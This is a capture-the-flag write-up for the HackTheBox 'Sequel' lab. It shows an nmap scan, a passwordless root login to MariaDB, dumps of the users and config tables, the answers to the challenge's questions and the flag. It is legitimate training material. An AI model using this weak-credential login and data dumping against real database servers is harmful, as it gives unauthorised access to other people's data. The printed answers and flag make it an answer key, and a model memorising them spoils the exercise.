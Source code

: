 ```
Platform: HackThebox
Challenge: Sequel
OS: 
Task: Vulnerability Assessment, Databases, MySQL, SQL, Penetration Tester Level 1, Reconnaissance, Weak Credentials
Tools Used: 
Author: Paul B.
```

### Scanning
Nmap Output
```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-10 20:38 IST
Nmap scan report for 10.129.95.232
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, Support41Auth, LongColumnFlag, ConnectWithDatabase, IgnoreSigpipes, SupportsCompression, InteractiveClient, Speaks41ProtocolOld, FoundRows, Speaks41ProtocolNew, SupportsTransactions, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: Ir"PLkUHJ{KF]#4w"<H6
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.02 seconds
```

### Enumeration
Connect to remote mysql server using following command `mysql -h <Target-IP> -u root`

![HTB - Sequel Mysql 1.png](:/546055f81b624cf99fabb0159b48d26a)

List tables - `show tables;`
```
mysql> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.16 sec)
```
Fetch data from `users` table - `select * from users;`
```
mysql> select * from users;
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0.36 sec)
```
Searching for flag in config table
Fetch data from `config` table - `select * from config;`
```
mysql> select * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0.16 sec)

```

TASK 1

What does the acronym SQL stand for?
```
Structured Query Language
```

TASK 2

During our scan, which port running mysql do we find?
```
3306
```

TASK 3

What community-developed MySQL version is the target running?
```
Mariadb
```

TASK 4

What switch do we need to use in order to specify a login username for the MySQL service?
```
-u
```

TASK 5

Which username allows us to log into MariaDB without providing a password?
```
root
```

TASK 6

What symbol can we use to specify within the query that we want to display everything inside a table?
```
*
```

TASK 7

What symbol do we need to end each query with?
```
;
```

SUBMIT FLAG

Submit root flag
```
7b4bec00d1a39e3dd4e021ec3d915da8
```
